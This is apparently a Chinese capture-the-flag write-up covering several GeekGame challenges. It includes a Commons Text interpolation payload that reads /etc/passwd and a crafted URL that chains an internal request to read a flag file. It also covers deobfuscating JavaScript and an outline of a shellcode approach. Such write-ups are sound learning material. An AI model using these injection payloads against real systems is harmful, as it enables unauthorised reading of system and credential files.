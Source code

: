 ## Flag 3: 通过 bonus 服务在机器上执行命令

这一问就容易很多了, 毕竟能拿到源码, 这一行已经是贴脸告诉你要去搜什么东西了

```java
if (queryBean.getType().equals("CommonsText")) {
```

而且 google 搜出来的第一篇文章就包含 `${file:utf-8:/etc/passwd}` (至少截至 2022 年 11 月 24 号在我这里是). 于是构造出 url 就可以解了:

https://prob08-iwrahf67.geekgame.pku.edu.cn/admin/http%3A%252f%252f127.0.0.1%3A8080%252fbonus/?type=CommonsText&value=%24%7Bfile%3Autf-8%3A%2Froot%2Fflag3.txt%7D



# 这也能卷

## Flag 1

(本场拿得唯一一个一血, 然后后两问就真的摆大烂了 Doge)

web 前端题拿到之后首先就是 `grep -Ri "flag"`, 发现这么一坨: 

```javascript
const flag0 =
  _0x340c07(0x65d, "aIlf", 0x554, 0x7bc, 0x7c0) +
  _0x340c07(0x522, "mxb3", 0x41a, 0x61d, 0x5ed) +
  _0x476726("Zml(", 0x605, 0x57c, 0x6a1, 0x5a5) +
  _0x476726("UwsG", 0x5d6, 0x5c1, 0x500, 0x601) +
  _0x5e5705("mmNu", 0x1d0, 0x354, 0x339, 0x1d1) +
  _0x476726("][gJ", 0x3b3, 0x4c7, 0x43a, 0x401);
```

抱着试一试的态度把这一坨贴到 console 里. 叮! flag 就出来了.



# 简单题

如果把这题看作一道没有开 NX 保护的 pwn 题, 那它就真的是一道简单题了. 如果你要做一道不开 NX 的 pwn 题, 那么你要做的就是: 1. 把 shellcode 写入内存; 2. 让 `rip` 寄存器指向你的 shellcode. 

因此, 我们只需要通过这段汇编把一段 shellcode 写入内存, 并且要使得在执行完这段写内存的代码之后, `rip` 刚好指向我们刚刚写入内存的起始地址. 至于不知道 mmap 之后的起始地址, 既然给了elf 了, debug 一下就知道了. (如图, mmap 后的起始地址储存在 `rdx` 寄存器中)
